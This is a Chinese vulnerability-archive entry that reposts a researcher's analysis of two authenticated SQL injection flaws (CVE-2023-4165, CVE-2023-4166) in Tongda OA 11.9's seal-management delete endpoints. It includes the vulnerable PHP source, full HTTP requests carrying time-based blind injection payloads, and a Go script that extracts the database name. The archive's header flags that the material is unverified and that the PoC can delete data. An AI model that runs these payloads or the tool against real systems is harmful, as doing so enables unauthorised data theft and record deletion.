# 通达OA delete_seal/delete_log DELETE_STR SQL 注入

## 条目说明

- 对象与具体问题：通达OA；delete_seal/delete_log DELETE_STR SQLi
- 版本、配置及部署条件：11.9实测
- 认证与权限前提：inc/auth.inc.php需登录，最低角色未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 两个端点完整代码适合主文
- 首节sleep测试错用delete_log路由；char83请求与char84文字对齐
- DELETE可能删业务记录，重查询增加负载，不能称无害验证
- Go RawQuery未编码空格、默认重定向、固定2秒阈值、循环defer响应关闭影响可靠性
- 缺补丁build及成对重复基线

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/_Onm36p0hMoA_FjszNUiVQ)

  

前言
--

又是各种 day 的 poc 满天飞，我今天挑个通达 OA 的 POC 来验证一下其真实性，在此写下文章来分析记录一下。

_声明：__** 文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。_

环境搭建
----

下载地址：https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe



服务启动



利用 admin 账号成功登录，密码默认为空



漏洞分析（**CVE-2023-4165**）
-----------------------

根据网传的 poc，直接来看 / general/system/seal_manage/iweboffice/delete_seal.php 文件

```
<?php
require_once "inc/auth.inc.php";
include_once "inc/header.inc.php";
include_once "inc/utility_all.php";
$CUR_TIME = date("Y-m-d H:i:s", time());
$DELETE_STR = rtrim($DELETE_STR, ",");
$query = "delete from office_seal WHERE ID IN ($DELETE_STR)";
exequery(TD::conn(), $query);
header("location:manage.php?start=$start");
?>


```

实现的功能是从数据库中删除指定的记录。前面三句是包含其它文件进来。然后第四句开始是创建了一个名为 的变量，保存当前时间。当前时间可能是为了记录删除操作的时间戳。对 DELETE_STR 变量进行处理，使用 rtrim()  函数去掉末尾的逗号（,）。然后是构造了一个 SQL 查询语句，使用 $DELETE_STR 中的值作为 ID 列的筛选条件。



调用 exequery() 函数执行 SQL 查询；使用 header() 函数将请求重定向到另一个页面。

```
exequery(TD::conn(), $query);
header("location:manage.php?start=$start");


```

分析到这里的时候，很明显的一个 SQL 语句拼接，确认存在 SQL 注入。

但是我们看到前面是把 inc/auth.inc.php 包含进来了的，也就是说需要有登录后的权限才能执行下面的删除操作。



没登录的时候，直接访问则会显示 “用户未登录，请重新登录!”



我们登录之后进行测试。发现是印章日志查询的功能。



尝试进行注入，试一下有没有过滤 sleep

```
http://192.168.88.131/general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1) and if(1 =1,sleep(5),1) AND (1) = (1


```



分析一下看到在 inc/conn.php 中做了过滤。

调用链为：

```
inc/auth.inc.php(3)--->inc/session.php(77)--->inc/conn.php---(sql_injection)


```

在 inc/conn.php 的 sql_injection 方法过滤了常用的 SQL 注入函数



尝试使用网传的 poc 进行请求

```http
GET /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(83)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.88.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: Hm_lvt_74ecab41a4d1845b3fab38f72ed0db35=1679966090; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=3d564868; PHPSESSID=po5cp18o8mov6bk99cd338a7e1
Cache-Control: max-age=0


```

使用 DATABASE 获取当前数据库名称，char(84) 是 ASCII 码的 T，看到有稍微延迟（推测是 SQL 语句匹配运行造成的）



char(83) 未延迟



  

漏洞分析（**CVE-2023-4166**）
-----------------------

这个漏洞其实和上面的那个差不多，只是漏洞点的位置不同，我们也来简单的看一下吧。

/general/system/seal_manage/dianju/delete_log.php

```
<?php
require_once "inc/auth.inc.php";
include_once "inc/header.inc.php";
if (substr($DELETE_STR, -1, 1) == ",") {
 $DELETE_STR = substr($DELETE_STR, 0, -1);
}
$query = "delete from SEAL_LOG WHERE LOG_ID IN ($DELETE_STR)";
exequery(TD::conn(), $query);
header("location:log.php?start=$start");
?>


```

简单分析看了下，大概功能是从 "SEAL_LOG" 表中删除指定的日志。根据传入的参数 $DELETE_STR，该脚本构建了一个 DELETE 语句，并使用 exequery() 函数执行该查询。最后还来了个重定向，和上面的那段代码也是非常相似的。也包含了 inc/auth.inc.php



我们就直接上 POC 了，POC 和上面一模一样。

```http
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.88.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: Hm_lvt_74ecab41a4d1845b3fab38f72ed0db35=1679966090; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=4fb6c477; PHPSESSID=brpsncea78tf3qv8jgpdr69d20
Cache-Control: max-age=0


```

延迟两秒多



延迟一秒左右



工具编写
----

根据上面分析的特性，当遇到正确的字符的时候延迟的时间会比错误的字符多一些。分别是两秒多，和秒左右。

使用 go 编码的简单脚本，测试的 POC 是用于枚举当前所使用的数据库名称。

```
package main

import (
 "fmt"
 "net/http"
 "strings"
 "time"
)

func main() {

 url := "http://192.168.88.131/general/system/seal_manage/dianju/delete_log.php"                                                                                     // 目标网站的URL
 delay := 2                                                                                                                                                          // 延迟时间，单位为秒
 cookieValue := "Hm_lvt_74ecab41a4d1845b3fab38f72ed0db35=1679966090; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=3d564868; PHPSESSID=po5cp18o8mov6bk99cd338a7e1" // 替换为有效的Cookie值

 characters := "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!@#$%^&*()+-" // 可能的字符集

 result := ""
 for i := 1; i <= 30; i++ { // 假设字符的最大长度为30
  found := false
  for _, char := range characters {
   payload := fmt.Sprintf("1) and (substr(DATABASE(),%d,1))=char(%d) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1", i, int(char)) // 构造payload
   //print(payload, "\n")
   req, err := http.NewRequest("GET", url, nil)
   if err != nil {
    fmt.Println("创建请求失败:", err)
    return
   }

   // 使用分号分隔的每个Cookie项
   cookieItems := strings.Split(cookieValue, "; ")
   for _, item := range cookieItems {
    itemSplit := strings.SplitN(item, "=", 2) // 按照等号（=）分隔键值对
    if len(itemSplit) == 2 {
     cookie := &http.Cookie{
      Name:  itemSplit[0],
      Value: itemSplit[1],
     }
     req.AddCookie(cookie)
    }
   }

   req.URL.RawQuery = "DELETE_STR=" + payload //构建请求，其DELETE_STR是本次的注入参数

   startTime := time.Now()
   resp, err := http.DefaultClient.Do(req)
   if err != nil {
    fmt.Println("发送请求失败:", err)
    return
   }
   defer resp.Body.Close()

   endTime := time.Now()
   responseTime := endTime.Sub(startTime)

   if responseTime >= time.Duration(delay)*time.Second {
    result += string(char)
    found = true
    break
   }
  }

  if !found {
   break
  }
 }

 fmt.Println("Database: " + result)
}


```

**CVE-2023-4166 获取当前数据库名称**



**CVE-2023-4165 获取当前数据库名称**



查看数据库的配置，结果正确



总结
--

1. 两个漏洞很相似

2. 漏洞点很容易看到，但想要利用起来还得进行更深入的绕过。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
